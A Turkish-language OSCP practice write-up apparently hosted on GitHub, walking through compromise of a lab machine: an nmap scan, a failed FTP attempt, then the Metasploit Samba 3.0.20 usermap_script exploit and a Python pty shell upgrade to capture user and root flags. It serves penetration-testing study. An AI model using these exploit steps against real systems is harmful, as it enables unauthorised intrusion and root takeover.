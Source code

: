 # OSCP_Preparation

Makine IP: 10.129.86.76 

 Hemen nmap çalıştırıyorum ve bizi neler bekliyor görmek için sabırsızlanıyorum.

```console
Nmap -A 10.129.86.76  
```
 
![image](.\assets\5.PNG)

https://www.exploit-db.com/exploits/17491 - FTP versiyonunda Command Execution açığı olduğu görülüyor. 

FTP’den girmeyi denedim. 

```console
tcp> open 

(to) 10.129.86.76  
```

![image](.\assets\6.PNG)


PASV FTP, Dosya Aktarım Protokolü (FTP) bağlantılarını kurmak için alternatif bir moddur. Kısacası, bir FTP istemcisinin gelen bağlantılarını engelleyen güvenlik duvarı sorununu çözmektedir. Pasif FTP, bir güvenlik duvarının arkasındaki FTP istemcileri için tercih edilen bir FTP modudur. 
 
Ftp'den devam edemediğim için samba da ilgili versiyonda açık olup olmadığına bakıyorum. 
 

 
```console
msf6 > search samba 3.0.20 
```

![image](.\assets\1.PNG)

Command Execution açıklığı olduğunu gördükten sonra exploitimi hazırlamaya başlıyorum.

  
```console
msf6 > use exploit/multi/samba/usermap_script 
```

![image](.\assets\2.PNG)

 
```console
msf6 exploit(multi/samba/usermap_script) > set RPORT 445 
```
 Burada dikkat edilmesi gereken kısım port. Nmap ile elde ettiğimiz sonucu unutmadan devam ediyoruz.

Ve en sevilen kısım EXPLOİT ! Enter..
```console
msf6 exploit(multi/samba/usermap_script) > exploit 
```
![image](.\assets\3.PNG)

Başarılı olduk. Şimdi TTY shell alalım işimiz kolay olsun.
  
```console
python -c 'import pty; pty.spawn("/bin/sh")' 
```

![image](.\assets\4.PNG)


Hem user hem root flag'ini almış bulunuyoruz :)
 

 

 

